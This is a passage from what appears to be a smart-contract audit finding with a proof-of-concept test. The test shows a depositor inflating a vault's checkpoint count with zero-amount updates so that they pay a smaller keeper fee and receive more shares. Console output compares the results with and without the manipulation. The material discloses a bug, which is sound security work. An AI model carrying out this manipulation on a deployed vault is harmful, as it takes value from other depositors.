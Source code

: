 Also notice that in `processLocal` the only thing which keeper fees influence are deposits and redemptions, but not claims.

## Proof of concept

The scenario above is demonstrated in the test, add this to Vault.test.ts:
```solidity
it('inflate checkpoint count', async () => {
    const settlementFee = parse6decimal('10.00')
    const marketParameter = { ...(await market.parameter()) }
    marketParameter.settlementFee = settlementFee
    await market.connect(owner).updateParameter(marketParameter)
    const btcMarketParameter = { ...(await btcMarket.parameter()) }
    btcMarketParameter.settlementFee = settlementFee
    await btcMarket.connect(owner).updateParameter(btcMarketParameter)

    const deposit = parse6decimal('10000')
    await vault.connect(user).update(user.address, deposit, 0, 0)
    await updateOracle()
    await vault.settle(user.address)

    const deposit2 = parse6decimal('10000')
    await vault.connect(user2).update(user2.address, deposit2, 0, 0)

    // inflate checkpoint.count
    await vault.connect(btcUser1).update(btcUser1.address, 0, 0, 0)
    await vault.connect(btcUser2).update(btcUser2.address, 0, 0, 0)

    await updateOracle()
    await vault.connect(user2).settle(user2.address)

    const checkpoint2 = await vault.checkpoints(3)
    console.log("checkpoint count = " + checkpoint2.count)

    var account = await vault.accounts(user.address);
    var assets = await vault.convertToAssets(account.shares);
    console.log("User shares:" + account.shares + " assets: " + assets);
    var account = await vault.accounts(user2.address);
    var assets = await vault.convertToAssets(account.shares);
    console.log("User2 shares:" + account.shares + " assets: " + assets);
})
```

Console output:
```solidity
checkpoint count = 3
User shares:10000000000 assets: 9990218973
User2 shares:10013140463 assets: 10003346584
```

So the user2 inflates his deposited amounts by paying smaller keeper fee.

If 2 lines which inflate checkpoint count (after corresponding comment) are deleted, then the output is:
```solidity
checkpoint count = 1
User shares:10000000000 assets: 9990218973
User2 shares:9999780702 assets: 9989999890
```
